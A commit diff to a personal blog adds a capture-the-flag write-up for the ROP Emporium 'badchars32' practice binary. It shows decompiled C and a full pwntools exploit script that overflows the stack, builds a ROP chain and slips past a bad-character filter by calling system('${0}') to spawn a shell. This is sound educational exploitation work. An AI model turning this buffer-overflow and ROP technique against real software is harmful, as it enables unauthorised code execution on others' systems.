

Before and after one commit to bhrdn/bhrdn.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 843 px. Shown: the top 886 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1576 px from its top, so only the background shows below that; part of the change alters nothing that is shown.

````diff
--- /dev/null
+++ b/_posts/2020-03-22-ROP-Emporium-badchars32.md
@@ -0,0 +1,108 @@
+---
+layout: post
+title: ROP Emporium - badchars32
+---
+
+### Instruction
+An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.
+
+### Prev step to overflow stack
+<https://bhrdn.github.io/ROP-Emporium-ret2win32/>
+
+### Prev step to get addr data section
+<https://bhrdn.github.io/ROP-Emporium-write432/>
+
+### Check vuln function
+```c
+void pwnme(void)
+{
+  char *__s;
+  size_t __n;
+  undefined auStack44 [40];
+
+  __s = (char *)malloc(0x200);
+  if (__s != (char *)0x0) {
+    memset(__s,0,0x200);
+    memset(auStack44,0,0x20);
+    puts("badchars are: b i c / <space> f n s");
+    printf("> ");
+    __s = fgets(__s,0x200,stdin);
+    __n = nstrlen(__s,0x200);
+    checkBadchars(__s,__n);
+    memcpy(auStack44,__s,__n);
+    free(__s);
+    return;
+  }
+                    /* WARNING: Subroutine does not return */
+  exit(1);
+}
+```
+
+### XOR function to bypass badchars
+```c
+void usefulGadgets(void)
+{
+  byte in_CL;
+  byte *unaff_EBX;
+
+  *unaff_EBX = *unaff_EBX ^ in_CL;
+  return;
+}
+```
+
+### Why not bypass badchars with bash special params :trollface:
+- Badchars: [ 'b', 'i', 'c', '/', ' ', 'f', 'n', 's' ]
+
+```c
+#include <stdio.h>
+
+int main()
+{
+    system("$0");
+    return 0;
+}
+```
+- Reference: <https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html>
+
+### Payload
+```python
+#!/usr/bin/env python
+# -*- coding: utf-8 -*-
+from pwn import *
+
+exe = context.binary = ELF('badchars32')
+
+def start(argv=[], *a, **kw):
+    '''Start the exploit against the target.'''
+    if args.GDB:
+        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
+    else:
+        return process([exe.path] + argv, *a, **kw)
+
+gdbscript = '''
+tbreak main
+continue
+'''.format(**locals())
+
+io = start()
+
+payload = '\x90' * cyclic_find('laaa')
+command = '${0}'
+
+DATA_START = 0x804a038
+
+## gadgets to write datas
+POP_ESI_POP_EDI = 0x08048899
+MOV_EDI_ESI = 0x08048893
+
+rop = ROP(exe)
+rop.raw(POP_ESI_POP_EDI)
+rop.raw(command)
+rop.raw(DATA_START)
+rop.raw(MOV_EDI_ESI)
+
+rop.system(DATA_START)
+
+io.sendline(payload + rop.__str__())
+io.interactive()
+```
--- a/_posts/2020-03-22-ROP-Emporium-write432.md
+++ b/_posts/2020-03-22-ROP-Emporium-write432.md
@@ -74,6 +74,8 @@ payload = '\x90' * cyclic_find('laaa')
 command = '/bin//sh'
 
 DATA_START = 0x804a028
+
+## gadgets to write datas
 POP_EDI_POP_EBP = 0x080486da
 
 rop = ROP(exe)
````
